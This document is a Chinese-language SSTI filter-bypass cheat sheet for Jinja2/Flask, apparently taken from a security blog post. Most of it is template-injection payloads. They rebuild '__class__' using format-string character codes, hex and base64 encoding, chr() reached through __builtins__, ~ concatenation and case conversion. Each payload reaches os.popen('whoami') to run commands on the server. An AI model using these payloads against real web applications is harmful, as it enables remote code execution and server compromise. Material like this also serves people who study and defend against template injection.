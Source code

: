  **ascii转换** + **格式化字符串**

>   [**P3rh4ps**](https://xz.aliyun.com/u/21917) 利用Python字符串格式化特性绕过ssti过滤 : https://xz.aliyun.com/t/7519

```python
"{0:c}".format(97)='a'
"{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)='__class__'

{{ config["{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)].__init__.__globals__['os'].popen('whoami').read() }}
```

 **编码绕过** 

```python
"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"

对于python2的话，还可以利用base64进行绕过
"__class__"==("X19jbGFzc19f").decode("base64")

{{ config["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"].__init__.__globals__['os'].popen('whoami').read() }}

{{ config[("X19jbGFzc19f").decode("base64")].__init__.__globals__['os'].popen('whoami').read() }}
```

 **利用chr函数** 

 因为我们没法直接使用chr函数，所以需要通过`__builtins__`找到他 

```python
{% set chr=url_for.__globals__['__builtins__'].chr %}
{{config[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)].__init__.__globals__['os'].popen('whoami').read()}}
```

> 获取内置方法:以chr()为例
>
> ```python
> "".__class__.__base__.__subclasses__()[x].__init__.__globals__['__builtins__'].chr
> get_flashed_messages.__globals__['__builtins__'].chr
> url_for.__globals__['__builtins__'].chr
> lipsum.__globals__['__builtins__'].chr
> x.__init__.__globals__['__builtins__'].chr  (x为任意值)
> ```

**在jinja2里面可以利用~进行拼接** 

```python
{%set a='__cla' %}{%set b='ss__'%}
{{config[a~b].__init__.__globals__['os'].popen('whoami').read() }}
```

 **大小写转换** 

```python
{{config["__CLASS__".lower()].__init__.__globals__['os'].popen('whoami').read() }}
```
